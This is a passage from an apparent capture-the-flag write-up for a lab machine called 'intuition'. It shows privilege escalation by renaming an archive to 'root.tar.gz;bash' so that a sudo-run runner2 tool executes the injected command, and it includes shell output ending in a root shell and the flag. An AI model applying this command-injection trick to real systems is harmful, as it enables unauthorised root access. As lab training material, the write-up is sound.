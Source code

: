 I renamed the `test.tar.gz` file to `root.tar.gz;bash` and uploaded it to the server. Now, all we have to do is run the `runner2` executable with the `root.json` file. And there it is! We have a root shell. The `runner2` executable attempted to install the fake role but failed because the URL was invalid. However, the `;bash` command in the `role_file` was still executed, giving us a root shell

```bash
lopez@intuition:/dev/shm$ sudo /opt/runner2/runner2 root.json 
Starting galaxy role install process
[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at
'https://galaxy.ansible.com/api/': <urlopen error [Errno -3] Temporary failure in name resolution>
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
root@intuition:/dev/shm# whoami
root
root@intuition:/dev/shm# 
root@intuition:/dev/shm# cat /root/root.txt 
77aa026c557f5eb152b62cc0010e2a27
root@intuition:/dev/shm# 
```

root.txt

```text
77aa026c...
```
